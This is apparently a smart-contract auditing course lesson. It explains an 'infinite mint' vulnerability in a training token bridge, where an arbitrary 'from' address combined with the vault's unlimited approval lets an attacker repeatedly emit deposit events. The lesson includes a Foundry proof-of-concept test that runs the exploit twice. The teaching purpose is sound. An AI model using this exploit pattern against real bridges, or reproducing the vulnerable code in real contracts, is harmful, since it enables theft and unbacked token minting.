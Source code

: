 ```yaml
---
title: Exploit - Infinite Mint
---
```


_Follow along with the video lesson:_

---

### Exploit - Infinite Mint

That high we found was really interesting. Let's take a moment to redress how it came about.

```js
function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
    token.safeTransferFrom(from, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
    emit Deposit(from, l2Recipient, amount);
}
```

We saw that, because this function takes an `arbitrary from` address, it allows any user to transfer approved tokens from any other user.

Can you think of any other situations in which the Boss Bridge protocol is approving tokens?

```js
constructor(IERC20 _token) Ownable(msg.sender) {
    token = _token;
    vault = new L1Vault(token);
    // Allows the bridge to move tokens out of the vault to facilitate withdrawals
    vault.approveTo(address(this), type(uint256).max);
}
```

Oh my ... The L1Vault is approving the bridge! This may be another high!

If the vault is giving approvals to the bridge a user would theoretically be able to call `depositTokensToL2`, passing _the vault's_ address as the `from` parameter. This seems potentially very bad. Let's try writing a test for this.

Open up L1TokenBridge.sol and we can get started.

```js
function testCanTransferFromVaultToVault() {}
```

By calling `depositTokensToL2` _from_ the vault, we're essentially transferring the tokens _back_ to the vault, but we'll be emitting a `Deposit` event with the parameters:

- from = address(vault)
- l2Recipient = address(attacker)
- amount = token.balanceOf(address(vault))

An important thing to note is that because the tokens are never really leaving the vault (they're transferring from the vault to the vault), this means the attack could be made multiple times to repeatedly emit this event, effectively minting infinite tokens on the L2.

Let's show it in our test.

```js
function testCanTransferFromVaultToVault() public {
    address attacker = makeAddr("attacker");

    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // Trigger the deposit event, self transfer tokens to the vault
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), attacker, vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);

    // Test being able to repeat the exploit
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), attacker, vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
}
```

Our test shouldn't be too unfamiliar from most of the last one we wrote. We're declaring an attacker and using the [**Foundry Cheatcode `Deal`**](https://book.getfoundry.sh/cheatcodes/deal?highlight=deal#deal) to give `500 ether` worth of our `L1Token` to the `Vault`.

From here, we set our expectEmits to show that the deposit event emits the `vault` as a from address, with the `attacker` as the recipient on L2. Because no tokens are removed from the `vault`, we can even exploit this multiple times.

Let's run the test.

```bash
forge test --mt testCanTransferFromVaultToVault
```

::image{src='/security-section-7/22-infinite-mint/infinite-mint1.png' style='width: 100%; height: auto;'}

Yikes.

We're going to skip doing the write up for this together, but if you're serious about putting these skills to work, I encourage you to write up the finding report for this `high severity` bug.
